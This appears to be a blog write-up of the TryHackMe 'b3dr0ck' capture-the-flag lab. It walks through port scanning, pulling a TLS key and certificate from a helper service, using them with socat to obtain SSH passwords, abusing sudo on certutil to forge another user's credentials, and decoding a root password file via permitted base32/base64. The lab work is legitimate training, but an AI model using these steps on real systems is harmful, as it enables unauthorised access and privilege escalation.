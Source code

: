 ```yaml
---
layout: post
title: tryhackme - b3dr0ck
---
```


# hacker vs hacker

# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap bedrock.thm  -v
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat
```

besides the box had a helpful description

```bash
Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...

		- He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
		- There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
    - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
    Can you find all the Easter eggs?

```

so now I know there are 4 open ports on the box

## http

the website had nothing interesting besides this note

```bash
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

so I went to check port 9009, which gave me a private key (the commands were guessed based on what the text was saying) and a certificate to connect to a service running on a higher port

```bash
$ nc bedrock.thm 9009
__          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               
What are you looking for? help
Looks like the secure login service is running on port: 54321

Try connecting using:
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
What are you looking for? key

Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[REDACTED KEY]
-----END RSA PRIVATE KEY-----
What are you looking for? cert
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----

What are you looking for?
```

after saving the key and the cert to a file I connected to port 54321 which gave me the `barney`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=cert.pem,key=private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
b3dr0ck> user
Current user = 'Barney Rubble' (valid peer certificate)
b3dr0ck> ^C
$ ssh barney@bedrock.thm
barney@bedrock.thm's password: 
barney@b3dr0ck:~$ ls -a
.  ..  barney.txt  .bash_history  .bash_logout  .bashrc  .cache  .hushlogin  .profile  .viminfo
barney@b3dr0ck:~$ cat barney.txt 
THM{RADACTED}
```

# privilege escalation

after getting on the machine I found that user have can run `/usr/bin/certutil` with root, the program take the user first and last name as input, and gives some sort of private key and a certificate

```bash
barney@b3dr0ck:~$ sudo -l
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$
```

now I needed the full name of another user, viewing the content of `/etc/password` reveled the other name which is `Fred Flintstone`

```bash
barney@b3dr0ck:~$ sudo /usr/bin/certutil fred 'Fred Flintstone'
Generating credentials for user: fred (Fred Flintstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[REDACTED PRIVATE KEY]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----
```

I used the private key and the cert to connect to the service running at port 54321 again, this time to get `fred`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=fred_cert.pem,key=fred_private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> user
Current user = 'Fred Flintstone' (valid peer certificate)
b3dr0ck> help
Password hint: [REDACTED] (user = 'Fred Flintstone')
b3dr0ck> ^C
$ ssh fred@bedrock.thm 
fred@bedrock.thm's password: 
fred@b3dr0ck:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  fred.txt  .hushlogin  .profile  .selected_editor  .ssh  .viminfo
fred@b3dr0ck:~$ cat fred.txt 
THM{REDACTED}
```

this user could run exfiltrate a hash of the `root`'s password with `/usr/bin/base32` 

```bash
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
fred@b3dr0ck:~$ sudo /usr/bin/base32 /root/pass.txt | base32 -d | base32 -d | base64 -d
[REDACTED]
```

I used crackstation to the clear text password then successfully logged in as root (btw the password wasn’t in rockyou.txt which is a first xd)

```bash
fred@b3dr0ck:~$ su -
Password: 
root@b3dr0ck:~# ls -a
.  ..  .bash_history  .bashrc  pass.txt  .profile  root.txt  snap  .ssh  .viminfo
root@b3dr0ck:~# cat root.txt 
THM{REDACTED}
root@b3dr0ck:~#
```

---
